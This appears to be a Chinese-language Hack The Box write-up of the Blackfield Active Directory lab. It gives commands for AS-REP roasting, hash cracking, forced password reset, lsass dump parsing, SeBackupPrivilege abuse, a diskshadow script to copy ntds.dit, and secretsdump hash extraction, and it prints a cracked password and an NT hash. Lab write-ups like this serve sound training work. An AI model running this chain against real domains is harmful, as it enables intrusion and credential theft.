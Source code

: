 ```yaml
---
title: Hackthebox-Blackfield-Windows_Active-Windows_Active
date: 2025-05-13 20:00:00
tags: 红队
categories: 红队打靶-Windows_Active
---
```




# 信息收集

## nmap

![image-20250512110303469](./Blackfield-Windows_Active/image-20250512110303469.png)

## ldapsearch

![image-20250512112158150](./Blackfield-Windows_Active/image-20250512112158150.png)

```
DomainDnsZones.Blackfield-Windows_Active.local
ForestDnsZones.Blackfield-Windows_Active.local
```

## smb

`smbmap -H 10.10.10.192 -u null` ，匿名可以读取`Profiles`和`IPC`

![image-20250513161438718](./Blackfield-Windows_Active/image-20250513161438718.png)

成功连接到后有很多空文件夹,将空文件夹导出作为用户名，看看是否有不需要Kerberos 认证的

![image-20250513161618503](./Blackfield-Windows_Active/image-20250513161618503.png)

## AS-REP Roasting攻击

```
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.192 Blackfield.local/$user ; done | teegetnpusers
```

![image-20250512145341889](./Blackfield-Windows_Active/image-20250512145341889.png)

```
hashcat -m 18200 -a0 password.txt /usr/share/wordlists/rockyou.txt
```

![image-20250512145326524](./Blackfield-Windows_Active/image-20250512145326524.png)

```
#00^BlackKnight
```

使用该用户去尝试smb，winrm是否可以登陆

```
smbmap -H 10.10.10.192 -u support -p '#00^BlackKnight'
```

![image-20250512150358580](./Blackfield-Windows_Active/image-20250512150358580.png)

smb有其他可以读的目录，但是都没有有用信息

使用bloodhound-python读取域信息，然后导入bloodhound，使用bloodhound-python该py脚本读取到的信息建议导入到4.2或4.3版本的bloodhound中，其他版本可能会导入失败

```
bloodhound-python -u support -p '#00^BlackKnight' -d Blackfield-Windows_Active.local -ns
10.10.10.192 -c DcOnly
```

![image-20250512152229318](./Blackfield-Windows_Active/image-20250512152229318.png)

`support`用户对`audit2020`有强制修改密码的权限,现在知道support的密码，尝试修改audit2020的密码

![image-20250512152653172](./Blackfield-Windows_Active/image-20250512152653172.png)

修改成功，密码有复杂度要求，修改时需要注意

然后使用audit2020用户访问smb的forensic目录

![image-20250513165325429](./Blackfield-Windows_Active/image-20250513165325429.png)

![image-20250513165337777](./Blackfield-Windows_Active/image-20250513165337777.png)

`mimikatz`就是从`lsass.DMP`中转储明文凭证和hash值，所以将该zip下载到本地，但是因为网速问题下载失败，可以尝试挂载到本地目录，然后copy出来

linux下可以使用pypykatz工具来转储这个文件

![image-20250512175713669](./Blackfield-Windows_Active/image-20250512175713669.png)

```
svc_backup：9658d1d1dcd9250115e2205d9f48400d
```

对该用户进行smb和winrm测试，winrm可以远程连接（密码使用NT值），远程连接之后就可以得到user.txt

![image-20250513103138134](./Blackfield-Windows_Active/image-20250513103138134.png)

# 提权

该用户有SeBackupPrivilege，并且属于Backup Operators组

<font color=green>他们可以提取用户通常无法访问的文件和目录。属于该组的权限允许用户备份任何文件，但是，一旦文件被打开用于读取访问，备份操作员可以将其重定向到任何位置。</font>>

![image-20250513170740551](./Blackfield-Windows_Active/image-20250513170740551.png)

![image-20250513170836948](./Blackfield-Windows_Active/image-20250513170836948.png)

可以使用该权限来读取想读取的文件

下载所需要使用的文件https://github.com/giuliano108/SeBackupPrivilege.git

![image-20250513110908007](./Blackfield-Windows_Active/image-20250513110908007.png)

![image-20250513111514423](./Blackfield-Windows_Active/image-20250513111514423.png)

![image-20250513111526180](./Blackfield-Windows_Active/image-20250513111526180.png)

![image-20250513111540561](./Blackfield-Windows_Active/image-20250513111540561.png)

![image-20250513111558796](./Blackfield-Windows_Active/image-20250513111558796.png)

![image-20250513111607315](./Blackfield-Windows_Active/image-20250513111607315.png)

无权读取root.txt，读取了notes.txt，root.txt可能是加密的

##  获取ntds.dit

接下来想办法获取 `ntds.dit`文件，该文件存放所有密码哈希的数据库，但是是无法直接读取的，因为当目标机器运行时，该文件保持被使用状态，这使得无法使用常规方法复制。因此，为了绕过此限制，我们需要使用 diskshadow 功能。这是一个内置的 Windows 功能，允许我们创建一个当前正在使用的驱动器的副本。

diskshadow可以以命令的形式运行文件中的内容，逐行运行，脚本内容：

文章建议在 C:\windows\system32下运行，有的用户可能没有该目录下的可写权限（运行时可以将文件放在其他目录），运行以下命令就会失败，

```
set context persistent nowriters
add volume c: alias df
create
expose %df% z:
```

可以指定创建文件的目录

```
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```

在上传到windows时需要进行一下`unix2dos`转码

运行命令：`diskshadow /s c:\programdata\vss.dsh`

![image-20250513153956559](./Blackfield-Windows_Active/image-20250513153956559.png)

然后将ntds.dit和system备份即可

```
Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit C:\Users\svc_backup\Desktop
reg.exe save hklm\system  C:\Users\svc_backup\Desktop

备份到指定目录，然后下载到本地
```

 然后导出hash

```
secretsdump.py -system system -ntds ntds.dit LOCAL
```

![image-20250513162016928](./Blackfield-Windows_Active/image-20250513162016928.png)

![image-20250513162213589](./Blackfield-Windows_Active/image-20250513162213589.png)